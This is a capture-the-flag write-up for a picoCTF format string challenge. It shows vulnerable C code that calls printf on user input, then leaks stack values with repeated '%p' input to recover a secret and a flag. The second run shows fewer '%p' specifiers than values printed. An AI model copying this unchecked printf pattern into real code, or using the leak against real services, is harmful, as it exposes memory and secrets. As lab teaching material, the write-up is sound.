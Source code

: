 ### Ive Got A Secret - 75 points

> Hopefully you can find the right format for my secret! Source. Connect on shell2017.picoctf.com:55189.

Hint:
> This is a beginning format string attack.

The hint tells us that we want to perform a string attack.
Lets's look at the code:
```c
int secret;
if(read(fd, &secret, sizeof(int)) != sizeof(int)){
    puts("Read error. Contact admin!\n");
    return -1;
}
...
printf("Give me something to say!\n");
    fflush(stdout);
    fgets(buffer, BUF_LEN, stdin);
    printf(buffer);
...
int not_secret;
printf("Now tell my secret in hex! Secret: ");
fflush(stdout);
scanf("%x", &not_secret);
if(secret == not_secret){
    puts("Wow, you got it!");
    system("cat ./flag.txt");  
}
```
So we want to discover the address of secret and give it to not_secret to pass the condition and get the flag.
Luckily they tell us to give something so they can print it out, but they pass the buffer without proper formatting, so we can exploit this to read the stack (secret is somewhere in there).
For that, we can pass %p multiple times to print stack values, one by one.
```
Give me something to say!                                                                         
%p %p %p %p %p %p %p %p %p                                                                        
0x40 0xf7fc7c20 0x8048792 0x1 0xffffdd34 0xbe399fb0 0x3 0xf7fc73c4 0xffffdca0
Now tell my secret in hex! Secret:
```

Hmmm, which one should we choose? Let's run it again and see what changes.
```
Give me something to say!                                                                          
%p %p %p %p %p %p                                                                                  
0x40 0xf7fc7c20 0x8048792 0x1 0xffffdd34 0x1aa37c1b 0x3 0xf7fc73c4 0xffffdca0
Now tell my secret in hex! Secret:
```
The sixth value changed, while the rest remained the same. Guess that must be our secret. Let's write it!
```
Now tell my secret in hex! Secret: 0x1aa37c1b                                                      
a18450ba7aaa8c085c522cdef6ab35ab                                                                   
Wow, you got it!
```
Flag:
```
a18450ba7aaa8c085c522cdef6ab35ab
```
